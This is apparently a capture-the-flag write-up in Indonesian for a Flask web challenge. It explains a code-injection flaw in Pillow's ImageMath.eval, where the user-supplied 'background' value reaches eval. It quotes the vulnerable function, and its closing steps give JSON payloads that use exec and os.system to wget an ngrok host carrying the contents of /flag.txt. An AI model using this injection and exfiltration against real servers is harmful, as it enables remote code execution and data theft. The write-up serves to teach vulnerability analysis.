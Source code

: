 # Amidst Us
#easy #web #rce #flask


Pada `util.py` terdapat vulnerability pada `ImageMath.eval()` karena user dapat memberikan input ke dalam fungsi tersebut. Untuk vers pillow di bawah 9.0.0.  
![](attachments/Pasted%20image%2020220611145429.png)

Vulnerable code pada input `background`.
```python
def make_alpha(data):
	color = data.get('background', [255,255,255])

	try:
		dec_img = base64.b64decode(data.get('image').encode())

		image = Image.open(BytesIO(dec_img)).convert('RGBA')
		img_bands = [band.convert('F') for band in image.split()]

		alpha = ImageMath.eval(
			f'''float(
				max(
				max(
					max(
					difference1(red_band, {color[0]}),
					difference1(green_band, {color[1]})
					),
					difference1(blue_band, {color[2]})
				),
				max(
					max(
					difference2(red_band, {color[0]}),
					difference2(green_band, {color[1]})
					),
					difference2(blue_band, {color[2]})
				)
				)
			)''',
			difference1=lambda source, color: (source - color) / (255.0 - color),
			difference2=lambda source, color: (color - source) / color,
			red_band=img_bands[0],
			green_band=img_bands[1],
			blue_band=img_bands[2]
		)

		new_bands = [
			ImageMath.eval(
				'convert((image - color) / alpha + color, "L")',
				image=img_bands[i],
				color=color[i],
				alpha=alpha
			)
			for i in range(3)
		]

		new_bands.append(ImageMath.eval(
			'convert(alpha_band * alpha, "L")',
			alpha=alpha,
			alpha_band=img_bands[3]
		))

		new_image = Image.merge('RGBA', new_bands)
		background = Image.new('RGB', new_image.size, (0, 0, 0, 0))
		background.paste(new_image.convert('RGB'), mask=new_image)

		buffer = BytesIO()
		new_image.save(buffer, format='PNG')

		return {
			'image': f'data:image/png;base64,{base64.b64encode(buffer.getvalue()).decode()}'
		}, 200

	except Exception:
		return '', 400
```

Buat post request dengan menggunakan tombol upload yang berada pada bagian atas dari web.
```
```

Command execution pada Image.eval dalam library Pillow
```sh
"background":["exec('import os; os.system(\"wget https://sth.ngrok.io/`cat /flag.txt`\")')",255,255]}
```


Letakkan pada body dari request
```sh
{"image":"imagerandom-char","background":["exec('import os; os.system(\"wget https://sth.ngrok.io/$(cat /flag.txt | base64)\")')",255,255]}
```

## Sumber
- https://security.snyk.io/vuln/SNYK-PYTHON-PILLOW-2331901